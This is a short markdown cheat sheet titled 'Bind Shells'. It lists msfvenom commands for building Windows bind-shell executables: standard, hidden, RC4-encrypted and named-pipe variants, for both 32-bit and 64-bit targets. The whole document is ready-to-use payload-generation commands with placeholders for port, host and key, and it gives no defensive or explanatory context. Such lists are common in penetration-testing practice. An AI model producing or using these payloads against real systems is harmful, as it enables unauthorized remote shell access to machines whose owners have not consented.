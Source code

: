 # Bind Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p windows/shell/bind_tcp lport=<PORT> -f exe -o shell-x86.exe`

`$ msfvenom -p windows/shell/bind_hidden_tcp ahost=<IP> lport=<PORT> -f exe -o hidden-shell-x86.exe`

`$ msfvenom -p windows/shell/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o shell-x86.exe`

For the SMB pipe the default for LPORT will always be port 445

`$ msfvenom -p windows/shell/bind_named_pipe lport=<PORT> pipename=<PIPENAME> -f exe -o shell-x86.exe`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/shell/bind_tcp lport=<PORT> -f exe -o shell-x86-64.exe`

`$ msfvenom -p windows/x64/shell/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o shell-x86-64.exe`